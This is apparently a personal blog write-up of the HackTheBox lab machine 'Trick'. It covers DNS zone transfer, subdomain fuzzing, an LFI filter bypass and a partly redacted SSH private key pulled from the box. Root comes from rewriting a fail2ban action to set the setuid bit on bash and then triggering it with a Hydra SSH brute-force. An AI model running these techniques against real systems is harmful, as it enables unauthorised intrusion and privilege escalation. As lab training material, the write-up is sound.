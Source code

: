```yaml
---
title: "HackTheBox - Trick"
date: 2022-10-28 12:00:00 +/-0530
categories: [HackTheBox]
tags: [CTF, HTB]     # TAG names should always be lowercase
---
```


![LOGO](../assets/img/Trick/Trick.png)


## Introduction

- Name : Trick
- IP Adress : ``10.10.11.166``
- Difficulty : Easy
- Release date : 19/06/22

## Foothold

First, add ````Trick.htb```` to your hosts file.

### Scan

Let's start with a *Nmap* scan : 
````
nmap -A -p- 10.10.11.166
````

We can see there are four open ports : 
````
# Nmap 7.92 scan initiated Mon Oct 24 16:24:17 2022 as: nmap -p- -A -oN nmap.txt trick.htb
Nmap scan report for trick.htb (10.10.11.166)
Host is up (0.025s latency).
rDNS record for 10.10.11.166: Trick.htb
Not shown: 65531 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 24 16:25:27 2022 -- 1 IP address (1 host up)
````

### DNS with *dig*

The DNS port look interesting, so we will check with *dig* :
````
dig axfr trick.htb @10.10.11.166
````

The output shows a new domain : ``preprod-payroll.trick.htb``. Add this in your hosts file, we will see later.

### Websites Enumeration

On the main page of the website, there is nothing interesting. 

Now, we will go on ``preprod-payroll.trick.htb``. We have a login page. When we fuzz the website, there are interesting pages as ``users.php`` and in the source code : ``manage_users.php`` with a parameter ``?id=``. Change to 1 and we have some creds !

![](../assets/img/Trick/password_web.png)

Now, go on the login page and connect. 

![](../assets/img/Trick/home_web.png)

But we are stuck here. Here was the guessing part because there is another domain to find. Try with *ffuf*.
````
ffuf -w /path/to/wordlist.txt -H 'Host: preprod-FUZZ.trick.htb' -u http://trick.htb -fw 1697
````
And we have a new domain : ``preprod-marketing.trick.htb``. When you fuzz the website, look at the URL:

![](../assets/img/Trick/url.png)

Here, there is a **LFI**. A little filter is present. Just bypass this one with ``..//``.

![](../assets/img/Trick/lfi.jpg)

### User flag

So we know that there is a user : ``mickael``. Let's see if there is a ssh key in his profile.

````
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdn--------------------------------------l6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS-----------------------------------------ZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3k----------------------------------------------------------Yr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
````

Now connect with the ssh key, and we have the user flag.

![](../assets/img/Trick/proof1.jpg)

## Privilege Escalation

Let's check the sudo rights with a ``sudo -l`` : 

![](../assets/img/Trick/sudo-l.png)

We can see *fail2ban* in the command, so we can think there is a link between root and *fail2ban* for the privesc. 

When we go in ``/etc/fail2ban/action.d/``, we have the right to read and write because we belong to the group ``security(1002)``.

If we can write in this folder, we can modify some rules : 
- Modify the ``iptables-multiport.conf`` file
- Modify a line
- Be ban with ssh bruteforce
- Have a shell

So FIRST,
````
mv iptables-multiport.conf iptables.bak
cp iptables.bak iptables-multiport.conf
chmod 666 iptables-multiport.conf
````

![](../assets/img/Trick/manip.png)

Now, we can write on the ``actionban`` line:
````
chmod u+s /bin/bash
````

![](../assets/img/Trick/modif.png)

*Note : You can put also another command like a reverse shell.*

Important : You need to restart the *fail2ban* service with the sudo command !
````
sudo /etc/init.d/fail2ban restart
````
Like this:

![](../assets/img/Trick/restart.png)

All modifications are saved in the config. So now, we need to be ban !

Last Step: 

You have two options:
- Manually (just connect with ssh service and put bad password x5)
- **Hydra** 

With **hydra**:

Just use the syntax:
````
hydra -l root -P /path/to/wordlist.txt -s 22 10.10.11.166 ssh
````

Wait a little time and ...

![](../assets/img/Trick/shell_setuid.png)

..BOOM, we are root !

If you want a better shell, use ssh key in ``/root/.ssh/`` directory and connect.

![](../assets/img/Trick/Screenshot_2022-10-24_16-10-23.png)

Really root :)


## Conclusion

It was a good box for beginners with many step. The guessing side was a little hard to find and I was stuck a time.

I think it is a 4/5 for the note.

Thanks for reading !

[HackTheBox - Completed](https://www.hackthebox.com/achievement/machine/356950/477)
